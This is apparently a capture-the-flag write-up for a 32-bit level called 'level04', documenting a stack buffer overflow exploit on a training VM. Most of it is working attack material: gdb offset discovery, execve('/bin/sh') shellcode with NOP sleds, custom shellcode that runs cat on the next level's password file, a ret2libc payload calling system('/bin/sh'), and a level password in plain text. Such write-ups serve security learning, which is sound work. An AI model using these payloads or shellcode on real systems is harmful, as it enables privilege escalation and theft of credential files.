 # Level04 - 32 bits - Can't use execve

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | ``                                         |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156

python -c 'print "A" * 156 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

0xffffd450 --> 0xffffd470 ('A' <repeats 156 times>, "BBBB")
x/x $esp+0x20
0xffffd470:     0x41414141

SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * (156-100-23) + "\x70\xd4\xff\xff"'
> Stopped reason: SIGHUP # or SIGILL
0x08048823 in main ()
# SIGHUP before return


export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level04
0xffffd755
python -c 'print "A" * 156 + "\x55\xd7\xff\xff"' > /tmp/exploit04

p /x 0xffffd755 + 100
$2 = 0xffffd7b9

python -c 'print "A" * 156 + "\xb9\xd7\xff\xff"' > /tmp/exploit04
```

> PTRACE_TRACEME (http://manpagesfr.free.fr/man/man2/ptrace.2.html)

    Le processus en cours va être suivi par son père. Tout signal (sauf SIGKILL) reçu par le processus l'arrêtera, et le père sera notifié grâce à wait(2). De plus, les appels ultérieurs à execve(2) par ce processus lui enverront SIGTRAP, ce qui donne au père la possibilité de reprendre le contrôle avant que le nouveau programme continue son exécution. Un processus ne doit pas envoyer cette requête si son père n'est pas prêt à le suivre. Dans cette requête, pid, addr et data sont ignorés.

```C
// source: http://shell-storm.org/shellcode/files/shellcode-571.php

#include <stdio.h>

const char shellcode[]="\x31\xc0" // xorl %eax,%eax
"\x99" // cdq
"\x52" // push edx
"\x68\x2f\x63\x61\x74" // push dword 0x7461632f /cat
"\x68\x2f\x62\x69\x6e" // push dword 0x6e69622f /bin
"\x89\xe3" // mov ebx,esp
"\x52" // push edx
"\x68\x73\x73\x77\x64" // push dword 0x64777373 sswd
"\x68\x2f\x2f\x70\x61" // push dword 0x61702f2f //pa
"\x68\x2f\x65\x74\x63" // push dword 0x6374652f /etc
"\x89\xe1" // mov ecx,esp
"\xb0\x0b" // mov $0xb,%al
"\x52" // push edx
"\x51" // push ecx
"\x53" // push ebx
"\x89\xe1" // mov ecx,esp
"\xcd\x80" ; // int 80h

int main()
{
(*(void (*)()) shellcode)();

return 0;
}


/*
shellcode[]=	"\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64"
		"\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";
*/
```

```shell
/home/users/level05/.pass

/hom e/us ers/ leve l05/ .pas s000

//ho me// user s//l evel 05/. pass

xxd -c4 < <(echo "//home//users//level05/.pass" | rev)
0000000: 7373 6170  ssap # 0x73736170 => \x70\x61\x73\x73
0000004: 2e2f 3530  ./50 # 0x2e2f3530 => \x30\x35\x2f\x2e
0000008: 6c65 7665  leve # 0x6c657665 => \x65\x76\x65\x6c
000000c: 6c2f 2f73  l//s # 0x6c2f2f73 => \x73\x2f\x2f\x6c
0000010: 7265 7375  resu # 0x72657375 => \x75\x73\x65\x72
0000014: 2f2f 656d  //em # 0x2f2f656d => \x6d\x65\x2f\x2f
0000018: 6f68 2f2f  oh// # 0x6f682f2f => \x2f\x2f\x68\x6f
000001c: 0a         .
```

```C
// adapted from: http://shell-storm.org/shellcode/files/shellcode-571.php

#include <stdio.h>

const char shellcode[] = "\x31\xc0"             // xorl %eax,%eax
                         "\x99"                 // cdq
                         "\x52"                 // push edx
                         "\x68\x2f\x63\x61\x74" // push dword 0x7461632f /cat
                         "\x68\x2f\x62\x69\x6e" // push dword 0x6e69622f /bin
                         "\x89\xe3"             // mov ebx,esp
                         "\x52"                 // push edx
                         "\x70\x61\x73\x73"     // push dword 0x73736170 => pass (xxd -r <<< 0x73736170 | rev)
                         "\x30\x35\x2f\x2e"     // push dword 0x2e2f3530 => 05/.
                         "\x65\x76\x65\x6c"     // push dword 0x6c657665 => evel
                         "\x73\x2f\x2f\x6c"     // push dword 0x6c2f2f73 => s//l
                         "\x75\x73\x65\x72"     // push dword 0x72657375 => user
                         "\x6d\x65\x2f\x2f"     // push dword 0x2f2f656d => me//
                         "\x2f\x2f\x68\x6f"     // push dword 0x6f682f2f => //ho
                         "\x89\xe1"             // mov ecx,esp
                         "\xb0\x0b"             // mov $0xb,%al
                         "\x52"                 // push edx
                         "\x51"                 // push ecx
                         "\x53"                 // push ebx
                         "\x89\xe1"             // mov ecx,esp
                         "\xcd\x80";            // int 80h

int main()
{
    fprintf(stdout, "Length: %d\n", strlen(shellcode));
    (*(void (*)())shellcode)();
    return 0;
}

/*
shellcode[]=	"\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52"
    "\x70\x61\x73\x73\x30\x35\x2f\x2e\x65\x76\x65\x6c\x73\x2f\x2f\x6c\x75\x73\x65\x72\x6d\x65\x2f\x2f\x2f\x2f\x68\x6f" <-- //home//users//level05/.pass
    "\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";
*/
```

```shell
python -c 'print "\x90" * 80 + "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x70\x61\x73\x73\x30\x35\x2f\x2e\x65\x76\x65\x6c\x73\x2f\x2f\x6c\x75\x73\x65\x72\x6d\x65\x2f\x2f\x2f\x2f\x68\x6f\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80"  + "A" * (156-80-56) + "\x70\xd4\xff\xff"'
```

ret2libc
https://beta.hackndo.com/retour-a-la-libc/

```shell
b*main
run
p system
  $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

searchmem "/bin/sh"
  Searching for '/bin/sh' in: None ranges
  Found 1 results, display max 1 items:
  libc : 0xf7f897ec ("/bin/sh")

python -c 'print "A" * OFFSET + "SYSTEM_ADDR" + "EXIT_ADDR" + "/bin/sh_ADDR"'

python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "EXIT" + "\xec\x97\xf8\xf7"'
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)
- [FR - Ecrivez votre premier shellcode en asm x86 ! (Exemple 2 : execve(/bin/sh))](https://zestedesavoir.com/articles/158/ecrivez-votre-premier-shellcode-en-asm-x86/#2-exemple-2-execve-bin-sh)

### C

#### Questions

- [how does ptrace catch fork's system call?](https://stackoverflow.com/questions/20440118/how-does-ptrace-catch-forks-system-call)

#### Man

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)
